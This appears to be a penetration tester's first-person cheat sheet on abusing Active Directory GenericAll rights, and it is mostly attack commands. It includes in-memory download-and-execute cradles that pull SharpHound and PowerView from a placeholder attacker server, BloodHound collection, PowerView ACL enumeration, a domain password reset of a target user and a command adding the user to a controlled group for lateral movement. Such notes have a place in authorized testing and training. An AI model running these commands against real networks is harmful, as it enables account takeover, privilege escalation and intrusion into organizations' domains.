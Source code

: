 # <h1 align="center" id="heading">GenericAll</h1>
There are a few ways that I can check for GenericAll privileges within an Active Directory environment. The first and easiest is through BloodHound. I can collect BloodHound graphing information for the target domain in a few ways. The easiest and most accurate way is through SharpHound collection. I prefer to run the collection in memory with the following command:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All
```
If I have valid domain credentials, I can use the Python collector BloodHound.py. This can be run from any platform that has Python support so I do not need to rely solely on Windows. This comes in handy when I find myself on a Domain-joined linux system. I can use the following command to execute the BloodHound graphing information collection:
```console
bloodhound-python -u <username> -p '<password>' -ns <target ip> -d <domain name> -c all
```
This may or may not work depending on the target system! I can also use the following PowerView command to enumerate the presence of GenericAll much faster:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1");Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
If I find that I have GenricAll privileges I can check that I have control over the object by  changing the account password with the following command:
```powershell
net user <target user> Password123! /domain
```
I can also check to see if my current user has explicit access rights to any groups with the following command:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1");Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
If I find any groups that I have explicit control over, I can usee the following command to add my current user to that group:
```powershell
net group <target group> <domain user> /add /domain
```
Once I become a member of that group, I will inherit all of the group privileges which may or may not allow for lateral movement within the target domain.
